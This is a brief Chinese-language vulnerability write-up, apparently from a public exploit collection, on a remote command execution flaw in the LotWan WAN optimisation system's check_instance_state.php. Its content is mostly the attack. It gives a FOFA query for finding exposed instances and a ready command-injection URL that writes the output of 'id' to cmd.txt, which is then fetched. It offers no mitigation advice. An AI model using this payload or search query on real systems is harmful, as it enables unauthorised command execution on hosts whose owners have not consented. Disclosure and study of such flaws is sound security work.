 # 华夏创新 LotWan广域网优化系统 check_instance_state.php 远程命令执行漏洞

## 漏洞描述

华夏创新 LotWan广域网优化系统check_instance_state.php文件参数 ins存在命令拼接，导致远程命令执行漏洞

## 漏洞影响

```
华夏创新 LotWan广域网优化系统
```

## FOFA

```
title="LotWan 广域网优化系统"
```

## 漏洞复现

登录页面

![image-20220519182517187](./images/202205191825272.png)

存在漏洞的文件为

```
/acc/check_instance_state.php?ins=;id>cmd.txt
```

再访问 `/acc/cmd.txt`

![image-20220519182529097](./images/202205191825165.png)